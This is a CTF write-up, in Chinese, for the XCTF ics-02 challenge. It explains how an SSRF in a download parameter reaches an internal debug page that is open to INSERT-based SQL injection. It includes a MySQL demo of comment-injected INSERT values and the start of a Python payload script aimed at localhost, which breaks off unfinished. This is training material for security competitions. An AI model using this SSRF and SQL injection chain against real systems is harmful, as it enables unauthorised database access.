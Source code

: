 ## 0x10 ics-02

XCTF 4th-CyberEarth 工控云管理系统的文档中心页面，存在不易被发现的漏洞。

- SSRF + INSERT SQLi

通过 `download.php?dl=` 处 dl 参数进行 SSRF 攻击 `/secret/secret_debug.php` 进行 SQLi 获取 flag。

MYSQL Demo:

```sql
mysql> create table ics02(A VARCHAR(255) NOT NULL UNIQUE, B VARCHAR(255) NOT NULL, C VARCHAR(255) NOT NULL, D VARCHAR(255) NOT NULL);
Query OK, 0 rows affected (0.05 sec)

mysql> DESC ics02;
+-------+--------------+------+-----+---------+-------+
| Field | Type         | Null | Key | Default | Extra |
+-------+--------------+------+-----+---------+-------+
| A     | varchar(255) | NO   | PRI | NULL    |       |
| B     | varchar(255) | NO   |     | NULL    |       |
| C     | varchar(255) | NO   |     | NULL    |       |
| D     | varchar(255) | NO   |     | NULL    |       |
+-------+--------------+------+-----+---------+-------+
4 rows in set (0.00 sec)

mysql> INSERT INTO ics02 (A,B,C,D) VALUES ('a','b','c','d');
Query OK, 1 row affected (0.01 sec)

mysql> select * from ics02;
+---+---+---+---+
| A | B | C | D |
+---+---+---+---+
| a | b | c | d |
+---+---+---+---+
1 row in set (0.00 sec)

mysql> INSERT INTO ics02 (A,B,C,D) VALUES ('q',version()/*,'b'*/,'c','d');
Query OK, 1 row affected (0.00 sec)

mysql> select * from ics02;
+---+--------+---+---+
| A | B      | C | D |
+---+--------+---+---+
| a | b      | c | d |
| q | 8.0.17 | c | d |
+---+--------+---+---+
2 rows in set (0.00 sec)
```

Payload:

```python
import random
import requests
from urllib import urlencode

# url SSRF attack secret_debug.php IP: 127.0.0.1
url = "http://127.0.0.1/secret/secret_debug.php?"

# Payload
# payload = "version()" 
# 5.5.62-0ubuntu0.14.04.1
# payload = "database()" 
# ssrfw
```